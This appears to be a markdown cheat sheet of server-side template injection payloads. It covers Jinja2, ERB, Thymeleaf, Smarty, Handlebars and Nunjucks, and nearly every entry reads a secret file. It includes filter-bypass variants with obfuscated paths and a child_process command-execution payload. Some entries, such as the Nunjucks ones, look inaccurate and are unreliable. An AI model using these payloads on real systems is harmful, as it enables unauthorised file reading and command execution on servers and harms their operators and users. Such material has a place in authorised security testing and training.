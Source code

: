 # Server-side template injection

Test Queries: Enter the commands that will cause the error and look at the specific messages to determine the ENGINE.

# Exploitation of SSTI to access /home/vova/secret by languages ​​and template systems

## Python (Jinja2)

```
{{ }}, {% %}, {{7*7}} = 49
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/home/vova/secret').read() }}
```

ByPass:
```
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/'.join(['home', 'vova', 'secret'])).read() }}
{{ ''[''].__class__.__mro__[1].__subclasses__()[40]('/home/vova/secret').read() }}
{{ config.from_pyfile('/home/vova/secret') }}
```

## Ruby (ERB)

```
<%= %>, <%= 7 * 7 %> = 49
<%= File.read('/home/vova/secret') %>
```

ByPass:
```
<%= IO.readlines('/home/vova/secret') %>
<%= ENV["HOME"] %>/vova/secret
<%= Kernel.open('/home/vova/secret').read %>
```

## Java (Thymeleaf)

```
th:text, ${}, ${7*7} = 49
${new java.util.Scanner(new java.io.File("/home/vova/secret")).useDelimiter("\\A").next()}

${T(java.nio.file.Files).readAllBytes(T(java.nio.file.Paths).get('/home/vova/secret'))}
${new java.util.Scanner(new java.io.File('/home/vova/secret')).useDelimiter("\\A").next()}
${new java.io.BufferedReader(new java.io.FileReader('/home/vova/secret')).lines().toArray()}
```

## PHP (Smarty)

```
{ },{7*7} = 49
{file_get_contents('/home/vova/secret')}
```

ByPass:
```
{readfile('/home/vova/secret')}

{assign var="file" value=fopen('/home/vova/secret', 'r')}
{while !feof($file)}{fgets($file)}{/while}

{getenv("HOME")}/vova/secret
```

## Node.js (Handlebars, Nunjucks)

```
{{ }}, {{7*7}} = 49 //Handlebars
{% %}, {% 7*7 %} = 49 //Nunjucks

{% set fs = require('fs') %}
{{ fs.readFileSync('/home/vova/secret', 'utf-8') }}
```

ByPass:
```
{% set fs = require('fs') %}
{{ fs.readFileSync('/home/vova/secret', 'utf-8') }}

{% set cp = require('child_process') %}
{{ cp.execSync('cat /home/vova/secret') }}

{% set fs = require('fs') %}
{{ fs.readFileSync(String.fromCharCode(47, 104, 111, 109, 101, 47, 118, 111, 118, 97, 47, 115, 101, 99, 114, 101, 116), 'utf-8') }}

```

